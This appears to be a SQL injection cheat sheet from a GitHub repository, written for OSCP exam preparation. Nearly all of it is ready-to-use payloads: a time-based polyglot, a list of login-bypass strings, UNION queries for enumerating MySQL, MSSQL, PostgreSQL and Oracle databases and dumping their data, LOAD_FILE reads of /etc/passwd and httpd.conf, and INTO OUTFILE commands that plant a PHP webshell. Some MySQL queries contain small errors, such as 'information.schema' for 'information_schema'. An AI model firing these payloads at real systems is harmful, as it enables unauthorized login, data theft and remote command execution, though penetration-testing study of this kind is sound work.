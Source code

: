 # SQLI

#### Refs
https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/sql-injection/mysql-injection/README.md

#### Main
SQL Injection is a very common attack vector in the `OSCP` exam. You will most likely see atleast one box where it is the intended attack path. I would recommend to anyone that is unfamiliar with `SQL` to learn the language on a basic level first, and then understanding `SQLI` is way easier. With that being said the first thing you want to do is stuff the input fields with common `SQLI` cmds:

### Auth Bypass / SQLI Checker

#### God-Tier One-Liner

```txt
// Shoutout hacktricks and https://labs.detectify.com/ethical-hacking/ultimate-sql-injection-payload/ for this one.

SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

#### List of CMDs you could try

```txt
';#---                   // List pulled from 0xsyr0's github.
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

### SQL Injection

After stuffing the input fields you should either obtain access to the system as admin or the first user in the database. If not, you might've received a success message or something like that telling you that the SQL server accepted your input. Before trying please remember that I am using `'` in this situation at the beginning of every `cmd` but this will change depending on which character worked for you in the previous steps. Lastly, it's important to recognize that each different type of `SQL` db will have its own injection techniques. Next, try these common injections:

#### MySQL

```txt
# Get number of columns
' ORDER BY 3--

# Fingerprinting
' UNION SELECT 1, VERSION(), 3--
' UNION SELECT 1,2, DATABASE()--
' UNION SELECT 1,2, USER()--

# Get table name
' UNION ALL SELECT 1,2, GROUP_CONCAT(table_name) FROM information.schema.tables WHERE table.schema="<DATABASE>"--

# Get column name
' UNION ALL SELECT 1,2, GROUP_CONCAT(column_name) FROM information.schema.columns WHERE table.schema="<DATABASE>" AND table.name="<TABLE>"--

# Data dump
' UNION ALL SELECT 1,2,GROUP_CONCAT(CONCAT_WS(':', col1, col2, col3) SEPARATOR ' | ') FROM <TABLE>--

# File read
' SELECT LOAD_FILE('/etc/passwd')--

# Grab web config info
' SELECT LOAD_FILE('/etc/httpd/conf/httpd.conf')--

# AND

' SHOW VARIABLES LIKE 'secure_file_priv'--

# Create webshell
' SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/<FILE>.php"--

# OR

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php"--
```

#### MSSQL

```txt
# Fingerprinting
' UNION ALL SELECT 1,@@VERSION,3--
' UNION ALL SELECT 1,SYSTEM_USER,3--
' UNION ALL SELECT 1,DB_NAME(),3--



```

#### PostgreSQL

```txt
' UNION SELECT VERSION(), NULL-- 
```

#### Oracle SQL

```txt
' UNION ALL SELECT banner, NULL FROM v$version-- 
```
